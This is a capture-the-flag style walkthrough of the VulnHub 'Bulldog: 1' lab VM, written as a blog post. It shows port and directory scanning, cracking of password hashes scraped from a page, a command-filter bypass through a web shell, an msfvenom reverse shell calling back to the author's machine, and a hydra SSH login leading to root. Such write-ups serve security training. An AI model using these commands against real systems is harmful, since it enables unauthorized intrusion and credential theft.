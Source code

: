 ```yaml
---
layout: post
title: "Who Let the Dogs Out?"
category: Walkthrough
tags: [VulnHub, Bulldog]
comments: true
image:
  feature: bulldogs.jpg
  credit: 984943 / Pixabay
  creditlink: https://pixabay.com/en/beach-playing-bulldogs-1749854/
---
```


This post documents the complete walkthrough of Bulldog: 1, a boot2root [VM][1] created by [Nick Frichette][2] and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
Bulldog Industries recently had its website defaced and owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :) 

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in **bulldog**:

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.36.3
...
PORT     STATE SERVICE REASON         VERSION
23/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|_  256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
80/tcp   open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
```

Let's explore the web service first. This is how the site looked like as rendered by a browser.

![screenshot-1](/assets/images/posts/bulldog-walkthrough/screenshot-1.png)

The HTML source of the landing page as well as its internal link did not provide a clue on how to proceed.

### Directory/File Enumeration

Let's use `gobuster` with `common.txt` from [SecLists][4]{:target='blank'} to enumerate the site and see what we can discover.

```
# gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -e -u http://192.168.36.3

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.36.3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.36.3/admin (Status: 301)
http://192.168.36.3/dev (Status: 301)
http://192.168.36.3/robots.txt (Status: 200)
=====================================================
```

The `robots.txt` probably doesn't conform to specifications or it'll will appear in the `nmap` scan. Now, I've two more new directories: `admin` and `dev`.

### Under Development

This page contained interesting information. There's a link to `/dev/shell`, purportedly a web shell. Under the hood in the HTML source, there were SHA1 password hashes of members from the development team.

![screenshot-2](/assets/images/posts/bulldog-walkthrough/screenshot-2.png)

Let's clean up the hashes and submit to John the Ripper for offline cracking.

```
# curl -s 192.168.36.3/dev/ | sed '49,55!d' | awk -F': ' '{ print $2 }' | sed -r -e 's/(<br>)+<!--/:/' -e 's/-->/:::::/' > hashes.txt && john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
...
nick@bulldogindustries.com:bulldog:::::
sarah@bulldogindustries.com:bulldoglover:::::
```

Thank goodness authentication is required to use the web shell.

![screenshot-3](/assets/images/posts/bulldog-walkthrough/screenshot-3.png)

### Django Site Administration

Let's use one of the credentials (`nick:bulldog`) and see if we can authenticate with the server in order to use the web shell.

![screenshot-4](/assets/images/posts/bulldog-walkthrough/screenshot-4.png)

![screenshot-5](/assets/images/posts/bulldog-walkthrough/screenshot-5.png)

We see that a session with the site has been established. Now, are we able to use the web shell by going to `/dev/shell`?

![screenshot-6](/assets/images/posts/bulldog-walkthrough/screenshot-6.png)

Sweet. However, it appeared that only certain commands were allowed.

### Command Substitution

One of my favorite features in `bash` is [command substitution][5]{:target='_blank'} using backtick (`).

> "Bash performs the expansion by executing command in a subshell environment and replacing the command substitution with the standard output of the command, with any trailing newlines deleted."

![screenshot-7](/assets/images/posts/bulldog-walkthrough/screenshot-7.png)

### Low Privilege Shell

Let's transfer (using `wget`) a single-stage reverse shell payload and then run a reverse shell back to me. I can do that with `msfvenom` and Metasploit multi-handler.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.36.4 LPORT=443 -f elf -o bulldog
```

![screenshot-8](/assets/images/posts/bulldog-walkthrough/screenshot-8.png)

![screenshot-9](/assets/images/posts/bulldog-walkthrough/screenshot-9.png)

![screenshot-10](/assets/images/posts/bulldog-walkthrough/screenshot-10.png)

Boom. A low-privilege shell appeared but let's spawn a pseudo-TTY for better output control.

![screenshot-11](/assets/images/posts/bulldog-walkthrough/screenshot-11.png)

### Privilege Escalation

During enumeration, I found two users: `django` and `bulldogadmin`. They were able to `sudo` as `root`. Unfortunately, I don't have their passwords.

![screenshot-12](/assets/images/posts/bulldog-walkthrough/screenshot-12.png)

![screenshot-13](/assets/images/posts/bulldog-walkthrough/screenshot-13.png)

![screenshot-14](/assets/images/posts/bulldog-walkthrough/screenshot-14.png)

Noticed `.hiddenadmindirectory` in the home directory of `bulldogadmin`?

![screenshot-15](/assets/images/posts/bulldog-walkthrough/screenshot-15.png)

![screenshot-16](/assets/images/posts/bulldog-walkthrough/screenshot-16.png)

![screenshot-17](/assets/images/posts/bulldog-walkthrough/screenshot-17.png)

Seemed like reverse engineering the ELF binary is my ticket to `root`.

### What the ELF?

The first thing to do in reverse engineering is to look for interesting strings and that's exactly what I did.

![screenshot-18](/assets/images/posts/bulldog-walkthrough/screenshot-18.png)

If you look past the "`H`", you'll see "`SUPERultimatePASSWORDyouCANTget`". I'll hit the jackpot if this is the password belonging to any of the users since they can all `sudo` to `root`. Let's find out with `hydra`.

```
# cat users.txt
bulldogadmin
django
root

# hydra -L users.txt -p SUPERultimatePASSWORDyouCANTget -s 23 ssh://192.168.36.3
[23][ssh] host: 192.168.36.3   login: django   password: SUPERultimatePASSWORDyouCANTget
1 of 1 target successfully completed, 1 valid password found
```

![screenshot-19](/assets/images/posts/bulldog-walkthrough/screenshot-19.png)

It's done.

![screenshot-20](/assets/images/posts/bulldog-walkthrough/screenshot-20.png)

:dancer:

### Afterthought

If I have to guess, I'll say the other way to get root is perhaps through the Dirty CoW exploit as hinted in the notice page.

![screenshot-21](/assets/images/posts/bulldog-walkthrough/screenshot-21.png)

Well, to an attacker, a shell is a shell is a shell. Period. :smiling_imp:

[1]: https://www.vulnhub.com/entry/bulldog-1,211/
[2]: https://twitter.com/@frichette_n
[3]: https://www.vulnhub.com
[4]: https://github.com/danielmiessler/SecLists
[5]: https://www.gnu.org/s/bash/manual/html_node/Command-Substitution.html
